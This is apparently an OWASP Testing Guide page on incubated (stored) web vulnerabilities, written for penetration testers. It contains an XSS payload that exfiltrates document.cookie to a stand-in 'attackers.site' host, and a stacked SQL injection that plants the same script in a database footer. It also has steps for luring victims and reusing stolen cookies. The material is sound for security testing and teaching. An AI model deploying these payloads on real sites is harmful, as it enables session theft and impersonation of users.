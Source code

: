 # Testing for incubated vulnerabilities (OTG-INPVAL-015)


### Summary
Also often refered to as persistent attacks, incubated testing is a complex testing method that needs more than one data validation vulnerability to work. Incubated vulnerabilities are typically used to conduct "watering hole" attacks against users of legitimate web applications.

Incubated vulnerabilities have the following characteristics:
* The attack vector needs to be persisted in the first place, it needs to be stored in the persistence layer, and this would only occur if weak data validation was present or the data arrived into the system via another channel such as an admin console or directly via a backend batch process.
* Secondly, once the attack vector was "recalled" the vector would need to be executed successfully. For example, an incubated XSS attack would require weak output validation so the script would be delivered to the client in its executable form.


Exploitation of some vulnerabilities, or even functional features of a web application, will allow an attacker to plant a piece of data that will later be retrieved by an unsuspecting user or other component of the system, exploiting some vulnerability there.


In a penetration test, **incubated attacks** can be used to assess the criticality of certain bugs, using the particular security issue found to build a client-side based attack that usually will be used to target a large number of victims at the same time (i.e. all users browsing the site).


This type of asynchronous attack covers a great spectrum of attack vectors, among them the following:

* File upload components in a web application, allowing the attacker to upload corrupted media files (jpg images exploiting CVE-2004-0200, png images exploiting CVE-2004-0597, executable files, site pages with active component, etc.)

* Cross-site scripting issues in public forums posts (see [Testing for Stored Cross_site scripting (OTG-INPVAL-002)](https://www.owasp.org/index.php/Testing_for_Stored_Cross_site_scripting_%28OTG-INPVAL-002%29) for additional details). An attacker could potentially store malicious scripts or code in a repository in the backend of the web-application (e.g., a database) so that this script/code gets executed by one of the users (end users, administrators, etc). The archetypical incubated attack is exemplified by using a cross-site scripting vulnerability in a user forum, bulletin board, or blog in order to inject some JavaScript code at the vulnerable page, and will be eventually rendered and executed at the site user's browser --using the trust level of the original (vulnerable) site at the user's browser.

* SQL/XPATH Injection allowing the attacker to upload content to a database, which will be later retrieved as part of the active content in a web page. For example, if the attacker can post arbitrary JavaScript in a bulletin board so that it gets executed by users, then he might take control of their browsers (e.g., [XSS-proxy](http://sourceforge.net/projects/xss-proxy)).

* Misconfigured servers allowing installation of Java packages or similar web site components (i.e. Tomcat, or web hosting consoles such as Plesk, CPanel, Helm, etc.)


### How to Test

#### Black Box testing

##### File Upload Example
Verify the content type allowed to upload to the web application and the resultant URL for the uploaded file. Upload a file that will exploit a component in the local user workstation when viewed or downloaded by the user. Send your victim an email or other kind of alert in order to lead him/her to browse the page. The expected result is the exploit will be triggered when the user browses the resultant page or downloads and executes the file from the trusted site.


##### XSS Example on a Bulletin Board

1. Introduce *JavaScript* code as the value for the vulnerable field, for instance:
```
 <script>document.write('<img src="http://attackers.site/cv.jpg?'+document.cookie+'">')</script>
```
2. Direct users to browse the vulnerable page or wait for the users to browse it. Have a "listener" at *attackers.site* host listening for all incoming connections.
3. When users browse the vulnerable page, a request containing their cookie (*document.cookie* is included as part of the requested URL) will be sent to the *attackers.site* host, such as the following:
```
  - GET /cv.jpg?SignOn=COOKIEVALUE1;%20ASPSESSIONID=ROGUEIDVALUE;
      %20JSESSIONID=ADIFFERENTVALUE:-1;%20ExpirePage=https://vulnerable.site/site/;
      TOKEN=28_Sep_2006_21:46:36_GMT HTTP/1.1
```
4. Use cookies obtained to impersonate users at the vulnerable site.


##### SQL Injection Example
Usually, this set of examples leverages XSS attacks by exploiting a SQL-injection vulnerability. The first thing to test is whether the target site has a SQL injection vulnerability. This is described in Section 4.2 [Testing for SQL Injection](https://www.owasp.org/index.php/Testing_for_SQL_Injection_%28OTG-INPVAL-006%29). For each SQL-injection vulnerability, there is an underlying set of constraints describing the kind of queries that the attacker/pen-tester is allowed to do.


The tester then has to match the XSS attacks he has devised with the entries that he is allowed to insert.

1. In a similar fashion as in the previous XSS example, use a web page field vulnerable to SQL injection issues to change a value in the database that would be used by the application as input to be shown at the site without proper filtering (this would be a combination of an SQL injection and a XSS issue). For instance, let's suppose there is a *footer* table at the database with all footers for the web site pages, including a *notice* field with the legal notice that appears at the bottom of each web page. You could use the following query to inject JavaScript code to the *notice* field at the *footer* table in the database.
 ```
  SELECT field1, field2, field3
   FROM table_x
   WHERE field2 = 'x';
      UPDATE footer
      SET notice = 'Copyright 1999-2030%20
          <script>document.write(\'<img src="http://attackers.site/cv.jpg?\'+document.cookie+\'">\')</script>'
      WHERE notice = 'Copyright 1999-2030';
```
2. Now, each user browsing the site will silently send his cookies to the *attackers.site* (steps b.2 to b.4).


##### Misconfigured Server
Some web servers present an administration interface that may allow an attacker to upload active components of her choice to the site. This could be the case with an Apache Tomcat server that doesn’t enforce strong credentials to access its Web Application Manager (or if the pen testers have been able to obtain valid credentials for the administration module by other means).


In this case, a WAR file can be uploaded and a new web application deployed at the site, which will not only allow the pen tester to execute code of her choice locally at the server, but also to plant an application at the trusted site, which the site regular users can then access (most probably with a higher degree of trust than when accessing a different site).


As should also be obvious, the ability to change web page contents at the server, via any vulnerabilities that may be exploitable at the host which will give the attacker webroot write permissions, will also be useful towards planting such an incubated attack on the web server pages (actually, this is a known infection-spread method for some web server worms).


#### Gray Box testing
Gray/white testing techniques will be the same as previously discussed.
* Examining input validation is key in mitigating against this vulnerability. If other systems in the enterprise use the same persistence layer they may have weak input validation and the data may be persisited via a "back door".

* To combat the "back door" issue for client side attacks, output validation must also be employed so tainted data shall be encoded prior to displaying to the client, and hence not execute.

* See the [Data Validation](https://www.owasp.org/index.php/Data_Validation_(Code_Review)#Data_validation_strategy) section of the Code review guide.


### Tools

* XSS-proxy - http://sourceforge.net/projects/xss-proxy
* Paros - http://www.parosproxy.org/index.shtml
* Burp Suite - http://portswigger.net/burp/proxy.html
* Metasploit - http://www.metasploit.com/

### References
Most of the references from the Cross-site scripting section are valid. As explained above, incubated attacks are executed when combining exploits such as XSS or SQL-injection attacks.


**Advisories**<br>

* CERT(R) Advisory CA-2000-02 Malicious HTML Tags Embedded in Client Web Requests - http://www.cert.org/advisories/CA-2000-02.html
* Blackboard Academic Suite 6.2.23 +/-: Persistent cross-site scripting vulnerability - http://lists.grok.org.uk/pipermail/full-disclosure/2006-July/048059.html


**Whitepapers**<br>

* Web Application Security Consortium "Threat Classification, Cross-site scripting" - http://www.webappsec.org/projects/threat/classes/cross-site_scripting.shtml
